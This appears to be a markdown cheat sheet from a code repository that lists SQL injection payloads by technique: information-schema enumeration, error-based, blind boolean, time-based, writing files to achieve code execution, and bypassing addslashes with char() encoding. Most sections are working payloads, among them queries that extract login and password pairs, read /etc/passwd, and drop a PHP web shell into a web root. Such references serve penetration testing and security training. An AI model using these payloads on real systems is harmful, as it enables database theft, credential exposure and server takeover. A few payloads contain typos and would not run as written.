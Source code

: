 # SQL Injection
SQL Injection is a common security vulnerability in web applications that interact with databases. In this type of attack, an attacker intentionally inserts malicious SQL statements into a web form's input fields or URL parameters, exploiting flaws in data validation or sanitization. When these instructions are executed by the database, they can allow the attacker to manipulate system behavior, such as accessing, modifying, or deleting data, or even gain complete control over the server.

## Information Schema
Through the Information Schema, it is possible to obtain the table with system users and passwords and obtain the information contained in it.

Exemple: ' union select 1,2, group_concat(table_name),4,5 from information_schema.tables where table_schema = "string" %23

Example: ' union select 1,2,concat(login,':',senha),4,5 from table %23

## Error Based
Error Based, as the name implies, is based on the error that returns when trying to make a query in the database in some field. With it, you can inject SQL code to discover information about the table and the database.

Example: ' union select 1,2,3... %23'

Example: ' order by 1 or 2 or 3...'

Example: union select 1, column_name, load_file(”/etc/passwd”), 4, from information_schema.columns where table_schema=”database” and table_name=”users” %23

## Blind
When there are no indications if there is a SQL Injection, some tests can be used to verify the AND and OR logic of the program.

Example: ' or 1=1 union select 1,2#

### Blind Post
To discover confidential information from the server through logic, it is possible to use the ascii function to find out the name of the database in which the application is located, so it is very common to use Burp Suite in Repeater mode to make requests.

Example: ' or length(database()) = 7 #

Example: ' or ascii(substring(database(),1,1)) = ascii number for letter # 

Example: ' or database() = char(115,116,114,105,110,103) # 

Example: ' or ascii(substring(select loing from column name limit 0,1),1,1)) = ascii number for letter #

## Time Based
Time Based uses the sleep() function to check if there is a SQL Injection vulnerability by observing if the page takes a long time to respond after sending a sleep() in a request to the database. If possible, you can use if to scan information about the database, tables, and other information as in other vulnerabilities

Example: ' or sleep(5)#

Example: ' or if (length(database()) = 5, sleep(5), 0)#

Example: ' or if (database() = char(char(115,116,114,105,110,103)), sleep(5), 0)#

Example: ' or if (ascii(substring(database(), 1, 1)) = 100, sleep(5), 0)#

## SQLi to RCE
With SQL command injection, you can write data to the server with the INTO OUTFILE command and the path of the directory you want to save.

Example: ‘ union all select 1,2,3,4, “string” INTO OUTFILE “/var/www/html/website/file.txt” %23

Example: ‘ union all select 1,2,3,4, “`<?php system($_GET[’parameter’]); ?>” INTO OUTFILE “/var/www/html/website/banners/file.php” %23

## Bypass addslashes
In some cases, because of the way it was programmed to be queried in the database, some backslashes will be added to the query, making it impossible to make queries with single quotes, generating an error. However, one of the ways to circumvent this mechanism is to pass string values in decimals separated by commas with the char() function.

Example: echo -n “string” | od -An -tdC

Example:-1 union select 1,table_name,3,4,5 from information_schema.tables where table_schema=char(115,116,114,105,110,103)

Site: [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html)
